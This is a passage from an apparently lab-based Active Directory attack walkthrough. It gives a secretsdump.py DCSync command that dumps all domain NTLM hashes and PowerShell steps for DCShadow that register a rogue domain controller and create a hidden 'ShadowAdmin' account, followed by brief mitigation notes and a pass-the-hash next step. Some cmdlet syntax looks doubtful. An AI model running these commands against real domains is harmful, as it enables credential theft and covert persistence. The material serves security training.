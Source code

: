     ```bash
    # Dump all domain accounts via replication rights
    secretsdump.py -just-dc lab.local/AttackerUser:Pass@dc1.lab.local
    
    ```
    
    _Purpose_: Extract NTLM hashes without touching the DC database directly.  
    _Output_: Lines listing account names and corresponding hashes.
    
4.  **Perform DCShadow to inject changes**
    
    ```powershell
    # Register rogue DC and perform stealth replication changes
    Import-Module .\DSInternals.psm1
    Invoke-DCShadow -DomainController dc1.lab.local -AddReplicaLink
    # Example: create new admin account
    Add-DomainObject -Type user -Name "ShadowAdmin" -SamAccountName "ShadowAdmin" -Password (ConvertTo-SecureString "P@ssW0rd!" -AsPlainText -Force)
    
    ```
    
    _Purpose_: Push unauthorized changes that appear as normal replication.  
    _Verify_: Check Security Event ID 5136 for directory service modifications.
    

----------

### Expected Result

-   ACL enumeration reveals who can replicate or control objects.
    
-   DCSync outputs full NTDS.dit hashes.
    
-   DCShadow registers a rogue DC and writes changes undetected.
    

----------

### Mitigation & Hardening

-   Remove `DS-Replication-Get-Changes` from non-admin principals.
    
-   Monitor for unusual replication requests in DC event logs.
    
-   Audit and tighten ACLs on domain root and critical OUs.
    

----------

### Next Steps

1.  **Pass-the-Hash (PtH)**
    
    -   **What it is:** Authenticate to services using an NTLM hash directly, without needing the plaintext password.
        